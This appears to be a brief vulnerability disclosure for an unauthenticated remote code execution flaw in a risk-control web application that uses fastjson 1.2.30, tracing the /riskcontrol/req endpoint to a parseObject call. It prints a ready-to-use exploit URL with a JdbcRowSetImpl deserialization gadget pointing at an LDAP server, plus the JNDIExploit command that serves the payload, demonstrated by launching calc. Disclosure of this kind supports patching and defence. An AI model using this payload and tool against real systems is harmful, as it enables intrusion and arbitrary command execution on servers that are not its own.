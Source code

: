 The system uses fastjson 1.2.30, and this component has an RCE vulnerability.
![image](https://github.com/haioudelibaiyi/CVE/blob/main/img/1.png)
Through analysis, it was found that /riskcontrol/req called the methods in the EventFactory class. The build in the EventFactory class receives json parameters, and the interface can be accessed without authorization. The scene field in the json parameters is not empty. And scene=LOGIN triggers Json.parseObject (json, LoginEvent.class); Vulnerability point
pyaload:
http://ip/riskcontrol/req?json={"scene":"LOGIN","c":{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://0.0.0.0:1389/Basic/Command/calc","autoCommit":true}}}
![image](https://github.com/haioudelibaiyi/CVE/blob/main/img/2.png)
![image](https://github.com/haioudelibaiyi/CVE/blob/main/img/3.png)
![image](https://github.com/haioudelibaiyi/CVE/blob/main/img/5.png)

Using the JNDIExploit-2.0-SNAPSHOT.jar tool, java-jar jndiexploit-2.0-snapshot.jar-i 127.0.0.1, with the payload being, commands can be executed on the system, such as the calc command.
java -jar JNDIExploit-2.0-SNAPSHOT.jar  -i 0.0.0.0  
![image](https://github.com/haioudelibaiyi/CVE/blob/main/img/4.png)
